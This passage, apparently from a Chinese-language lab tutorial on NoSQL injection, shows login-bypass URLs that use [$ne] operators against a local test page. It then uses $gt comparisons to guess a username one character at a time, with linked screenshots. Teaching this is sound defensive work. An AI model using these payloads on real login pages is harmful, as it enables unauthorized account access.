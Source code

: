 -   绕过姿势

```plain
http://10.33.98.80/nosql/login/login.php?username[$ne]=1&password[$ne]=1&login-submit=login
```

[![](assets/1711465904-4a90b5bb066a752f5bef106348bca70d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240323181644-72d8060e-e8fe-1.png)

-   配合条件操作符
    
    -   (>) 大于 - `$gt`
    -   (<) 小于 - `$lt`
    -   (>=) 大于等于 - `$gte`
    -   (<= ) 小于等于 - `$lte`
    
    类似于`SQL bool`注入，我们尝试爆破`username`字段最后一个字符
    

```plain
http://10.33.98.80/nosql/login/login.php?username[$gt]=weiyh&password[$ne]=1&login-submit=login
```

[![](assets/1711465904-b2f750c5c84ea277acec91b32b355b45.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240323181655-79757456-e8fe-1.png)

```plain
http://10.33.98.80/nosql/login/login.php?username[$gt]=weiyi&password[$ne]=1&login-submit=login
```

[![](assets/1711465904-eae6859f057f7f2844485fab49c1707f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240323181703-7e4c9252-e8fe-1.png)
